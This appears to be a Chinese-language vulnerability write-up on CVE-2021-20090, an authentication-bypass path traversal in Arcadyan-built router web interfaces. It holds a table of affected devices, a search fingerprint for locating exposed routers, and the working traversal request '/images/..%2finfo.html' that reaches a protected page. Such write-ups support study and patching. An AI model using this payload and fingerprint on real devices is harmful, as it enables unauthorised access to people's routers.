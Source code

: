 # Arcadyan固件 image 路径遍历漏洞 CVE-2021-20090

## 漏洞描述

Arcadyan 制造的网络设备的 Web 界面中存在路径遍历漏洞，包括 Buffalo WSR-2533DHPL2 固件版本 <= 1.02 和 WSR-2533DHP3 固件版本 <= 1.24，可能允许未经身份验证的远程攻击者绕过身份验证。

## 漏洞影响

| **Vendor**          | **Device**                         | **Found on version** |
| ------------------- | ---------------------------------- | -------------------- |
| ADB                 | ADSL wireless IAD router           | 1.26S-R-3P           |
| Arcadyan            | ARV7519                            | 00.96.00.96.617ES    |
| Arcadyan            | VRV9517                            | 6.00.17 build04      |
| Arcadyan            | VGV7519                            | 3.01.116             |
| Arcadyan            | VRV9518                            | 1.01.00 build44      |
| ASMAX               | BBR-4MG / SMC7908 ADSL             | 0.08                 |
| ASUS                | DSL-AC88U (Arc VRV9517)            | 1.10.05 build502     |
| ASUS                | DSL-AC87VG (Arc VRV9510)           | 1.05.18 build305     |
| ASUS                | DSL-AC3100                         | 1.10.05 build503     |
| ASUS                | DSL-AC68VG                         | 5.00.08 build272     |
| Beeline             | Smart Box Flash                    | 1.00.13_beta4        |
| British Telecom     | WE410443-SA                        | 1.02.12 build02      |
| Buffalo             | WSR-2533DHPL2                      | 1.02                 |
| Buffalo             | WSR-2533DHP3                       | 1.24                 |
| Buffalo             | BBR-4HG                            |                      |
| Buffalo             | BBR-4MG                            | 2.08 Release 0002    |
| Buffalo             | WSR-3200AX4S                       | 1.1                  |
| Buffalo             | WSR-1166DHP2                       | 1.15                 |
| Buffalo             | WXR-5700AX7S                       | 1.11                 |
| Deutsche Telekom    | Speedport Smart 3                  | 010137.4.8.001.0     |
| HughesNet           | HT2000W                            | 0.10.10              |
| KPN                 | ExperiaBox V10A (Arcadyan VRV9517) | 5.00.48 build453     |
| KPN                 | VGV7519                            | 3.01.116             |
| O2                  | HomeBox 6441                       | 1.01.36              |
| Orange              | LiveBox Fibra (PRV3399)            | 00.96.00.96.617ES    |
| Skinny              | Smart Modem (Arcadyan VRV9517)     | 6.00.16 build01      |
| SparkNZ             | Smart Modem (Arcadyan VRV9517)     | 6.00.17 build04      |
| Telecom (Argentina) | Arcadyan VRV9518VAC23-A-OS-AM      | 1.01.00 build44      |
| TelMex              | PRV33AC                            | 1.31.005.0012        |
| TelMex              | VRV7006                            |                      |
| Telstra             | Smart Modem Gen 2 (LH1000)         | 0.13.01r             |
| Telus               | WiFi Hub (PRV65B444A-S-TS)         | v3.00.20             |
| Telus               | NH20A                              | 1.00.10debug build06 |
| Verizon             | Fios G3100                         | 2.0.0.6              |
| Vodafone            | EasyBox 904                        | 4.16                 |
| Vodafone            | EasyBox 903                        | 30.05.714            |
| Vodafone            | EasyBox 802                        | 20.02.226            |

## 网络测绘

```
app="Arcadyan-httpd-1.0" 
```

## 漏洞复现

登录页面

![img](./images/202202162257437.png)

通过目录遍历访问主页面 info.html

```php
/images/..%2finfo.html
```

![img](./images/202202162257566.png)